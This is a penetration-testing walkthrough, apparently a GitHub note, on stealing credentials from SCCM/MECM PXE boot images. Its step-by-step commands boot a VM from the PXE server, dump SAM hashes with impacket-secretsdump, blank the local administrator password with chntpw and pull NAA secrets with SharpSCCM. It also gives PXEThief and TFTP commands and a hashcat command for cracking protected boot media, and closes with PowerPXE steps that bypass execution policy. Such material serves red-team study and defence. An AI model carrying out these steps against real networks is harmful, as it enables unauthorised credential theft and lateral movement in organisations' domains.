 # Boot Image credentials recovery

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/sccm-mecm/cred-1-pxe-abuse#unencrypted-boot-mediums

## Tools: 

1) PXEThief https://github.com/MWR-CyberSec/PXEThief

2) SharpSCCM https://github.com/Mayyhem/SharpSCCM/releases/tag/v2.0.12

## Unencrypted Boot Mediums

PXE Boot mediums may be deployed to endpoints wherein the PXE boot image is not encrypted. When this is the case it is trivial to initiate the PXE installation sequence and pillage credentials on the resulting image when installation is complete. 

Broadly, this means it is trivial to obtain local SAM hashes and SCCM secrets from the installed image.

## Requirements

1) Unauthenticated network access

2) Line of sight to DHCP server (optional, but helps)

3) Line of sight to PXE-enabled distribution point

## Manual Process

1) This process can be performed manually by using virtualisation on the attack system (Virtualbox, Vmware etc..). Configuring a VM to network boot 

### NOTE: If using VirtualBox, ensure to install the VirtualBox extension pack otherwise this step may fail to obtain an image from the PXE server.

2) Once the initial PXE image is loaded, if the image is not password protected then we can simply proceed without requiring password input.

3) Proceed until an option for continuing with limited setup appears, then continue with the limited setup process.

4) When the system is finalised the logon screen for the administrator account will be presented. Gracefully shutdown the VM through the power options menu. 

### CAUTION! : Ensure the VM is gracefully shutdown through the windows power options. If the VM is terminated in an ungraceful state you will not have write access to reset the administrator password through a live boot medium.

5) Boot a live distro such as Kali Linux over the top of the newly created VM. Browse to the mounted Windows disk /Windows/Windows/System32/Config where the SAM and SYSTEM hive files reside. 

6) Then use impacket-secretsdump to obtain the SAM hashes from the system.

        impacket-seretsdump -system SYSTEM -sam SAM LOCAL

7) After this, ideally we will access the VM as the administrative account to identify further credentials. chntpw can be used to wipe any local account credentials within the SAM database, we will wipe the local administrator account credentials, save changes and reboot into the installed Windows VM.

##### List details about specific accounts

    chntpw -u <user> SAM

##### Interactive mode

    chntpw -i SAM

##### User edit mode and clear password
    
    Option 1
    Enter user RID
    Option 1 <-- Clear Password

#### Save changes and exit
    
    Enter
    q
    Enter
    y

After saving changes and rebooting the Windows VM. It should auto login as the native administrator account as there is now no password in place.

### NOTE: Sometimes this process seems to fail. If so try again and ensure the account is unlocked then blank the password again. Save the hive and perform a graceful shutdown in Kali.

8) Once logged in as an administrative user, it is advised to use SharpSCCM to identify any local secrets for the NAA account. There is potential for the NAA account to be over-privileged in domain or for its password to be reused within the environment.

        SharpSCCM.exe local secrets -m disk

## PXEThief

PXETHIEF is best utilised from a Windows based system so it can decrypt password values. PXETHIEF helps automate the process of collecting ConfigMgr Collection Variables, Task Sequence variables and NAA account credentials from PXE images.

##### Directly target MECM Server

        py.exe pxethief.py 2 <MECM Server IP>

##### Broadcast 

        py.exe pxethief.py 1


## Encrypted Boot Mediums

SCCM can be configured to set passwords on PXE. When this is the case, a valid password needs to be provided before the boot media is accessible. PXETHIEF can be used to obtain the hashed password value, if the password is weak, we can crack it and proceed with the same steps in the above sections of this document to perform credential extraction.

1) Download the boot var with TFTP

        tftp -i 192.168.60.11 GET "\SMSTemp\2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var" "2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var"

2) Use with option 5 in PXETHIEF to receive the PXE password hash

        py.exe .\pxethief.py 5 '.\2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var'

3) Crach the hash (Required hash module: https://github.com/The-Viper-One/hashcat-6.2.6-SCCM or https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)

        hashcat-6.2.6-SCCM.exe -m 19850 -a 0 $sccm$aes128$0000edec1400000010330000203300000e6600000000000008b5ea1dab29bdd0de62e6506b108b5c <password-file.txt> <rules>


Now that the PXE password has been obtained, the same steps in Unencrypted Boot Medium section can be followed for credential extraction.


#### 1) Request IP and PXE boot preconfigure details from DHCP ( MDT IP)

#### 2) Use TFTP to request each BCD file and enumerate the configuration for all of them.

#### 3) Use SSH connection

#### 4: tftp -i MDT_IP GET "\tmp\x64{30.....28}.bcd"

#### 5: powershell.exe -executionpolicy bypass

#### 6: Import-Module .\PowerPXE.ps1

#### 7: $bcdfILE = "conf.bcd"

#### 8: Get-WimFile -bcdFile $BCDFile

#### 9: tftp -i MDT_IP GET "PXE\BOOT\IMAGE\LOCATION" pxeboot.wim

#### 10: Get-FindCredentials -WimFile pxeboot.wim

#### 11: VOILA!

